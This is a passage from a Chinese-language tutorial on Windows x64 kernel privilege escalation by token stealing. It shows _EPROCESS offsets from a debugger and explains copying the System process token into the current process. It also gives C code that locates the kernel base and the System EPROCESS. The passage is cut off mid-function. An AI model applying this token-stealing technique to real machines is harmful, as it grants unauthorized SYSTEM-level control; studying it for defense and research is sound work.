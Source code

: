 ```
}
```  
#   
#   
#   
  
四  
  
  
**提权**  
  
  
在x64系统上，与提权相关的几个成员如下：  
```
2: kd> dt _EPROCESS
nt!_EPROCESS
   +0x2e8 UniqueProcessId  : Ptr64 Void
   +0x2f0 ActiveProcessLinks : _LIST_ENTRY
   +0x358 Token            : _EX_FAST_REF

2: kd> dt _LIST_ENTRY
FLTMGR!_LIST_ENTRY
   +0x000 Flink            : Ptr64 _LIST_ENTRY
   +0x008 Blink            : Ptr64 _LIST_ENTRY
```  
  
  
想要实现提权就要将System进程的Token赋值给本进程的Token，在ntoskrnl.exe内核文件中，全局变量PsInitialSystemProcess保存了System进程EPROCESS地址：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8G3WVayxh1xe4Vwicic63emUEiboT3uarXZnIeXzTG4gVIspdD7RbKpTsX5cXa1qQic2p5nzk9y6jmoHA/640?wx_fmt=png "")  
  
所以只要找到当前系统中运行的ntoskrnl.exe内核中的PsInitialSystemProcess地址就可以获取System进程的EPEROCESS地址，PsInitialSystemProcess相对于内核文件的偏移可以通过GetProceAddress获取，而当前系统中运行的内核文件的地址则需要以下函数获取：  
```
BOOL WINAPI EnumDeviceDrivers(
  __out  LPVOID* lpImageBase,
  __in   DWORD cb,
  __out  LPDWORD lpcbNeeded);
```  
  
  
第一个参数用来接收系统中运行的驱动文件的地址，该变量将会指向一个ULONG64的数组，其中第一个元素就是当前系统运行的ntoskrnl.exe的地址，因此，可以通过以下代码来获取System进程的EPROCESS地址：  
```
ULONG64 GetNTBase()
{
    ULONG64 Base[0x1000];
    DWORD dwRet = 0;
    ULONG64 ulKrnlBase = 0;

    if (EnumDeviceDrivers((LPVOID*)&Base, sizeof(Base), &dwRet))
    {
        ulKrnlBase = Base[0];
    }
    else
    {
        ShowError("EnumDeviceDrivers", GetLastError());
    }

    return ulKrnlBase;
}

ULONG64 GetSystemProcess()
{
    HMODULE hModel = NULL;
    ULONG64 ulAddress = 0, ulOSBase = 0, ulRes = 0;

```
